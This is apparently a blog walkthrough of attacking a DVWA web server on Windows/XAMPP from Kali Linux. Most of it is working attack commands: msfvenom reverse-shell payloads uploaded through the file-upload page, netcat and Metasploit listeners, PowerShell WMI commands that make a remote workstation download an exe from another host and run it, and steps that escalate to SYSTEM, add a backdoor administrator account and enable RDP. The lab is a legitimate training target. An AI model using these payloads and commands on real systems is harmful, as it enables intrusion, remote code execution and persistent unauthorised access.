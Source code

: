 ```yaml
---
title: 'Kali Windows PHP Attack'
author: RichMason
layout: post
permalink: /kali-php/
categories:
  - Tech
---
```

This Post is to detail the steps used when performing an attack using Kali Linux against a Windows Web Server with PHP.

Install xampp from https://www.apachefriends.org/download.html

Download dvwa from https://github.com/digininja/DVWA

Extract DVWAmaster.zip to c:\xampp\htdocs\dvwa

Rename C:\xampp\htdocs\dvwa\config\config.inc.php.data to remove the last extension

Edit the file as

```
$_DVWA[ 'db_user' ]     = 'root';
$_DVWA[ 'db_password' ] = '';
```

Start using xampp console apache and mysql.

Browse to http://127.0.0.1/login.php

Login as admin/password

Create the database and set level to low

Create php file to exploit

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.200.203 LPORT=4444 -f raw > reverse.php
```

Upload the php file to the website using the dvwa upload file tab

Browse to http://<dvwa_site>:82/dvwa/hackable/uploads/reverse.php to open the tunnel


How to exploit XAMPP with php and then download exe to exploit getsystem.

On Kali console run

```bash
nc -nlvp 4444
```

Browse to http://<dvwa_server>:82/dvwa/hackable/uploads/reverse.php to open the tunnel

Create exe file to exploit

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.200.203 LPORT=4445 -f exe > reverse.exe
```

```bash
msfconsole

use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set lhost 192.168.200.203

set lport 4445
```


Via the first shell opened onto dvwa run

```powershell
powershell Invoke-WmiMethod -Computer 192.168.200.15 -Path win32_process -Name create -ArgumentList 'powershell.exe -command "Invoke-WebRequest -Uri http://192.168.200.10/tunnel.exe -OutFile "c:\cb\dotnetfx.exe"'
```

  then


```powershell
powershell Invoke-WmiMethod -Computer 192.168.200.15 -Path win32_process -Name create -ArgumentList 'powershell.exe -command "Start-Process -Filepath "c:\cb\dotnetfx.exe"'
```

This downloads the exe using powershell on a remote workstation and then executes it starting another reverse tunnel to the second msfconsole session we opened.

On the second tunnel complete the test 

```bash
getsystem

net user /add ricky Bru73f0rc3_

net localgroup administrators ricky /add

reg add “Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

On the Kali appliance

```bash
apt-get install remmina
```

Connect over rdp to demonstrate access via the user created.
